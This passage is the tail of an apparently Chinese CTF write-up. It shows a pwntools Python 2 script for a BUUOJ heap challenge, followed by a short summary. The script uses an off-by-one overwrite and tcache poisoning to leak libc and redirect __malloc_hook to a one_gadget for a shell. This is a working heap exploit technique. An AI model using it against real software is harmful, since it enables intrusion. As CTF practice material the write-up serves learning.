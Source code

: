 ```
    sla('index:',str(idx))

#sh = process('./pwn')
sh = remote('node3.buuoj.cn',25400)
libc = ELF('./libc.so')
add(0,0x18)
add(1,0x80)
add(2,0x20)
#edit(0,'a'*0x18+p8(0x31))
for i in range(7):
    add(i+6,0xb8)
add(3,0x10)
for i in range(7):
    delete(i+6)
edit(0,'a'*0x18+p8(0xc1))
delete(1)
# gdb.attach(sh)
for i in range(7):
    add(i+6,0xb8)
add(4,0xb0)
show(4)
libc_base = u64(ru('\x7f')[-6:].ljust(8,'\x00'))-96-0x3ebc40
malloc_hook = libc_base + libc.sym['__malloc_hook']
delete(2)
edit(4,'a'*0x80+p64(0)+p64(0x31)+p64(malloc_hook))
print hex(libc_base)
#
delete(6)
delete(7)
delete(8)
add(6,0x20)
add(7,0x20,p64(0x10a38c+libc_base))
#gdb.attach(sh)
sla('choice:','1')
sla('card:',str(8))
sla('power:',str(20))
ti()
```



## 总结

比较基础的一次比赛，ak了pwn的感觉真不错，不过都比较简单，还是要努力。
